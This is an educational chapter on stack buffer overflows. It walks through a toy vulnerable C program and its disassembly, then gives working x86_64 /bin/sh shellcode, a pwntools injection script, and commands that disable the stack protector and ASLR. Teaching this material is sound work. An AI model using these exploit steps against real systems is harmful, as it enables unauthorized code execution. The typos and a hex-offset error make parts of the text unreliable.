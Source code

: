 # Chapter 1. Stack Smashing
In this chapter, we discuss the most common and easy-to-understand memory-safety problems: stack buffer overflow. An attacker could leverage such bugs to modity the stack and achieve malicious goals, knowning as stack smashing. We will not dive into the technical details of exploit writting (there are many such tutorials and tools available online, e.g., for CTF training) but mainly discuss why such bugs are dangerous and show how attacks could happen in practice. 

## Section 1.1 Stack Smashing

### 1.1.1 Warm Up
Let's use the following code snippet as a toy example, which contains a validation process that requires the user to input a key to pass the validation. The code contains a buffer overflow bug because the length of buf is 64 while it may read 160 byte data. Supposing the user neither know a valid key nor can obtain the source code. How can he find a key to pass the validation? 

```
int validation() {
    char buf[64];
    read(STDIN_FILENO, buf, 160);
    if(buf[0]=='$'){ //any code to check the input
        write(STDOUT_FILENO, "Key verified!\n", 14);
        return 1;
    }else{
    	write(STDOUT_FILENO, "Wrong key!\n", 11);
    }
    return 0;
}
```
The trick lies in the stack layout, and we can obtain the layout by analyzing its assembly code.
```
0x401150 <+0>:     push   %rbp
0x401151 <+1>:     mov    %rsp,%rbp
0x401154 <+4>:     sub    $0x50,%rsp
0x401158 <+8>:     xor    %edi,%edi
0x40115a <+10>:    lea    -0x50(%rbp),%rsi
0x40115e <+14>:    mov    $0xa0,%edx
0x401163 <+19>:    callq  0x401050 <read@plt>
0x401168 <+24>:    movsbl -0x50(%rbp),%ecx
0x40116c <+28>:    cmp    $0x24,%ecx
0x40116f <+31>:    jne    0x40119a <+74>
0x401175 <+37>:    mov    $0x1,%edi
0x40117a <+42>:    movabs $0x402004,%rsi
0x401184 <+52>:    mov    $0xe,%edx
0x401189 <+57>:    callq  0x401030 <write@plt>
0x40118e <+62>:    movl   $0x1,-0x4(%rbp)
0x401195 <+69>:    jmpq   0x4011ba <+106>
0x40119a <+74>:    mov    $0x1,%edi
0x40119f <+79>:    movabs $0x402013,%rsi
0x4011a9 <+89>:    mov    $0xb,%edx
0x4011ae <+94>:    callq  0x401030 <write@plt>
0x4011b3 <+99>:    movl   $0x0,-0x4(%rbp)
0x4011ba <+106>:   mov    -0x4(%rbp),%eax
0x4011bd <+109>:   add    $0x50,%rsp
0x4011c1 <+113>:   pop    %rbp
0x4011c2 <+114>:   retq
```
![image](./figures/chapt1-stack-main.png)

Let's assume the our porpose is to enforce the function to return 1, so we can trace the data flow of the return value backwards. Starting from Line <+106>, we know the return value of the register (%eax) is moved from the stack -0x4(%rbp). Line <+99> saves 0x0 to -0x4(%rbp), while Line <+62> saves 0x1 to -0x4(%rbp). So we can tamper the buffer of -0x4(%rbp) to bypass the validation. Line <+4> tells us the assembly code increases the stack size with 0x50. We can compute the offset of -0x4(%rbp) to the register %rsp should be 0x4b or 76 in decimal. In order to let the function return 1, we can input a 76-byte buf with the last four bytes to be 1.

### 1.1.2 Stack Smashing
A stack smashing attack contains three major steps:
- Step 1. Detect buffer overflow bugs or find an input that can crash a program. This is usually done via fuzz testing. 
- Step 2. Analyze stack layout of the buggy code. In practice, attackers may not be able to obtain the executables. 
- Step 3. Design the exploit. To obtain the shell. e.g., with return-oriented programming.

Now, we discuss a more general senario, i.e., 1) the attacker cannot obtain the binaries, and 2) his goal is to obtain the shell. 

#### 1.1.2.1 Stack Layout Analysis
The purpose is to obtain the offset of the return address so that we can point it to the another code address, e.g., shell code. Let's still use our previous toy program for demonstration. The idea is to input several 'A's (hexdecimal ASCII: 0X41). If it has changed the return addresses, then the program will not be able to continue the execution and report the bad return address. We can gradually increase the length of the input to learn the offset of the return address. 

| previous frame |
|                |
|   ret address  |
|       ...      |
|    AAAAAAAA    |

Before experiments, we need to turn on the core dump message
```
#: ulimit -c unlimited
#: sudo sysctl -w kernel.core_pattern=core
```

Input several 'A's and check the core dump message.
```
#: python -c 'print "A"*92'
#:./bug 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA…
Wrong license!
Segmentation fault (core dumped)

#: gdb --core core 
...
Program received signal SIGSEGV, Segmentation fault.
0x0000000a41414141 in ?? ()
```
The log message displays a segmentation fault caused by a invalid return address 0x0000000a41414141. Because there are four 'A's, we can know the offset of the return address should be 92-4=88. Note that if you try more a 'A's, the error message may not be 0x0000414141414141 but another different address because 0x0000414141414141 is an invalid code address to the OS.

#### 1.1.2.2 Design the Exploit 
The following code is a shellcode snippts for x86_64, which executes system("/bin/sh"). 
```
xor eax, eax
mov 0xFF978CD091969DD1, rbx
neg rbx
push rbx
push rsp
pop rdi
cdq
push rdx
push rdi
push rsp
pop rsi
mov 0x3b, al
syscall
```

We can test if the shellcode works via the following code. It first encodes and saves the shellcode as a char array, and then jumps to it as a function call.
```
const char shellcode[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main (void) {
  char buf[256];
  int len = sizeof(shellcode);
  for(int i=0; i<len; i++)
	 buf[i] = shellcode[i]; 
  ((void (*) (void)) buf) ();
}
```

If it works, we can inject the shellcode to the vulnerable program.
```
#! /usr/bin/env python
from pwn import *

ret = 0x7fffffffe1d0
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
payload = shellcode + "A" * (88-len(shellcode)) + p64(ret)
p = process("./bug")
p.send(payload)
p.interactive()
```

Execute the attacking code. If you are lucky enough, you should be able to obtain the following result.
```
#: python hijack.py 
[+] Starting local process './bug': pid 48788
[*] Switching to interactive mode
Input your key:Wrong key!
$ whoami
hui
$ 
```

If not, it possibly means you are using the stack protector or the ASLR. Turn off the stack protector when compiling the buggy program to eable the data on the stack to be executable.
```
#: clang -fno-stack-protector -z execstack bug.c
```

You can also turn off the ASLR as following.
```
#: echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## Section 2. Protection Techniques
